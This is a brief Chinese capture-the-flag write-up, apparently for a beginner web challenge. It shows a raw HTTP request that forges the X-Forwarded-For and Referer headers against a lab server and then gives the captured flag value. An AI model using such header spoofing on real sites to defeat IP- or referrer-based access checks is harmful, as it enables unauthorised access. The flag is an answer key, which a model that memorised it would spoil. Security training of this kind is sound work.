 # Xff_referer

> 按照提示,伪造X-Forwarded-For和Referer这二个字段

## 思路分析

> 按照提示,伪造X-Forwarded-For和Referer这二个字段

## payload

```
GET / HTTP/1.1
Host: 61.147.171.105:58986
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Referer:https://www.google.com
X-Forwarded-For:123.123.123.123
```

## flag

> cyberpeace{259e6ed318d72520a084b5a78d029bb2}